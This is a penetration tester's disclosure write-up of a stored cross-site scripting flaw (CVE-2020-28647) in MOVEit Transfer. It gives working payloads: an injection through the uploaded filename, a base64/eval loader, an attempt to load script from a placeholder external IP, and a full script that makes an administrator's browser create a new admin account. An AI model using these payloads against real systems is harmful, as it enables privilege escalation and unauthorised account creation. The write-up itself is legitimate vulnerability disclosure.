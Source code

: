 # Progress MOVEit Transfer < 2020.1 Stored XSS (CVE-2020-28647)




During a recent web application test engagement one of the applications in scope was a MOVEit Transfer 2020 web application. While performing the assessment a Stored Cross-Site Scripting (XSS) vulnerability was identified. This blog post will go though the discovery and exploitation of such vulnerability to gain administrative access to the web application.

While testing for input validation in a number of different input fields found across the application, one particular input field seemed to provide unexpected output when certain payloads where provided. This input field was the file name being uploaded. After uploading files with certain filenames, it was identified that then when trying to download the file, the download button was not performing any action. This behaviour was investigated and as we can see in the image below a JavaScript error is being triggered when clicking on the download button.

![](https://labs.secforce.com/uploads/1_js_error_initialfind.png)

Once this error was identified the HTML code behind the download button was analysed. From the initial analysis it resulted that the filename is being included in the button's `onclick` JavaScript function without being properly sanitized, as can be seen in the image below.

![](https://labs.secforce.com/uploads/2_js_error_intialfind_injectedfilename.png)

With this observation it was clear that JavaScript code can be injected that will be executed once a user clicks on the `Download` button. The first step was to create a Proof of Concept code that triggers a JavaScript popup via the `alert` function. Given the nature of the code and the place where the filename is being injected, the following payload was crafted. This payload would terminate the function being called and append a new function, `alert()`, followed by a dummy function to complete the code.

    test", 382,"1234");alert("XSS");a("test

With this payload in hand we can test this out. We can upload a file and then intercept the upload request to the server using burp proxy and change the filename and forward the request to the server.

![](https://labs.secforce.com/uploads/3_modifieduploadrequest.png)

![](https://labs.secforce.com/uploads/4_fileuploaded.png)

With the file being uploaded we can now open the file by clicking on the filename and then click on the `Download` button. Here we can see that XSS is triggered and a Javascript alert popup is shown.

![](https://labs.secforce.com/uploads/5_alert.png)

[![](https://img.youtube.com/vi/TS46qhgewSE/0.jpg)](https://www.youtube.com/watch?v=TS46qhgewSE)

Cool! So we can execute arbitrary Javascript code. What else can we do? Can we get something more out of this?

After going through the application and it's functionality, a potential vector of attack could be a low level user trying to escalate privileges to get administrative access to the web application.

The initial step was to check if it is possible to perform HTTP requests via Javascript by using `XMLHttpRequest`. While reviewing the settings for the file and folder names it was identified that MOVEit does not allow any file or folder to have `/` or `\` in the filename. So this can potentially prevent us from performing HTTP requests. Another limitation that was identified was that the filename is limited to 255 characters.

Based on this analysis we have a couple of restrictions that need to be bypassed. The first one was to try and find a way to bypass the `/` and `\` character limitation and to try and include a Javascript file hosted on a remote server. To bypass this restriction we can encode the Javascript code we want to execute in `base64` format and then decode this in memory and execute via the `eval` function. The following code snippet does exactly that.

    t",1,"1");var e="BASE64 CODE";var d=atob(e);eval(d);a("t","t

With this code the first attempt was to inject a `<script>` tag with the source of the file set to an externally hosted file. The code snippet below was base64 encoded and then copied in the snippet above.

    var s=document.createElement("script");s.onload=function(){r();};s.src="http://XXX.XXX.XXX.XXX/t";document.head.appendChild(s);

When trying this another issue popped up, CSP. The web application was using a CSP that prevented the loading of external javascript files.

![](https://labs.secforce.com/uploads/7_csp_error.png)

![](https://labs.secforce.com/uploads/8_csp.png)

So, we cannot load external files and we cannot include JS code that exceeds 255 characters. What can we do now? We can try to abuse the functionality of MOVEit and use it to host our malicious Javascript file.

First we need to create the Javascript code that will make a `GET` request to the page responsible to adding a new user to the system and from here extract the CSRF token. The script will then need to do a `POST` request to create a new admin user including the CSRF token extracted in the request. Below is the code snippet that does this.

    //Exploit Title: MOVEit Transfer 2020 - Stored Cross-Site Scripting (XSS)
    //Exploit Author: Mark Galea (mark.galea@secforce.com)
    //Date: 05-08-2020
    
    function r(){	
        alert(1);
        var uri = "human.aspx?arg12=useradd";
        xhr = new XMLHttpRequest();	
        xhr.open("GET", uri, false);	
        xhr.send(null)
        if (xhr.status === 200)
        {
            responseBody = read_body(xhr);
            firstSubStr = responseBody.substring(responseBody.indexOf("csrftoken")+18);
            csrfToken = firstSubStr.substring(0, firstSubStr.indexOf('"'));
            if (csrfToken){
                var adduserUri = "/human.aspx";
                var body="csrftoken=" + csrfToken + "&transaction=useradd&arg02=0&arg12=useradd&arg01=sectest3&arg03=sectest3&arg04=test1%40secforce.com&arg11=0&arg05=30&Opt03=en&Opt02=20&opt05=1xFEHd%5DFhhVKJm&opt04=1&Arg08=%5B9%255Sj%29%2B4%2ChAUAY3&Arg09=%5B9%255Sj%29%2B4%2ChAUAY3&opt07=%2FHome%2F%5BUSERNAME%5D&Arg10=";
                xhr2 = new XMLHttpRequest();
                xhr2.open("POST", adduserUri, false);
                xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
                xhr2.send(body);
            }
        }
    }
    
    function read_body(xhr) {
        var data;
        if (!xhr.responseType || xhr.responseType === "text") {
            data = xhr.responseText;
        } else if (xhr.responseType === "document") {
            data = xhr.responseXML;
        } else if (xhr.responseType === "json") {
            data = xhr.responseJSON;
        } else {
            data = xhr.response;
        }
        return data;	
    }

The Javascript code above needs to be saved to a file and then uploaded to MOVEit. After the file is uploaded open the file details and click on the download button while intercepting the web requests with burp proxy. In the burp proxy logs there should be an entry for the direct download link for the file. This URL should be similar to this:

    https://<MOVEIT_URL>/download?arg01=file693187292&arg02=693313636

Having the direct download link we can now set this up to be included in the payload. This code below will create a script tag and set the source URL to the direct download link and finally insert the script tag in the page head tag and `onload` execute the `r()` function.

    var s=document.createElement("script");s.onload=function(){r();};s.src="/download?arg01=file693187292&arg02=693313636";document.head.appendChild(s);

Next step is to base64 encode the code snippet above:

    dmFyIHM9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7cy5vbmxvYWQ9ZnVuY3Rpb24oKXtyKCk7fTtzLnNyYz0iL2Rvd25sb2FkP2FyZzAxPWZpbGU2OTMxODcyOTImYXJnMDI9NjkzMzEzNjM2Ijtkb2N1bWVudC5oZWFkLmFwcGVuZENoaWxkKHMpOw==

The next step is to inject this final XSS payload. To do this upload a file while intercepting the requests with burp proxy and modify the uploaded file name to the XSS payload below.

    t",1,"1");var e="dmFyIHM9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7cy5vbmxvYWQ9ZnVuY3Rpb24oKXtyKCk7fTtzLnNyYz0iL2Rvd25sb2FkP2FyZzAxPWZpbGU2OTMxODcyOTImYXJnMDI9NjkzMzEzNjM2Ijtkb2N1bWVudC5oZWFkLmFwcGVuZENoaWxkKHMpOw==";var d=atob(e);eval(d);a("t","t

Once the file is uploaded, click on the uploaded file to open the details and click on the Download button to trigger the XSS and the creation of the admin user. A low level user can create this setup and if the uploaded file is downloaded by an administrative user then the low level user can get the administrator to unwittingly create an admin account.

[![](https://img.youtube.com/vi/sR-BVGkABuE/0.jpg)](https://www.youtube.com/watch?v=sR-BVGkABuE)

Timeline

* 05/08/2020 - Issue Reported
* 08/08/2020 - Issue Verified and fix to be included in next major release
* 16/11/2020 - <a href="https://community.progress.com/s/article/MOVEit-Transfer-Vulnerability-Nov-2020">Progress MOVEit Advisory Released</a>
* 17/11/2020 - <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-28647">CVE-2020-28647 Released</a>

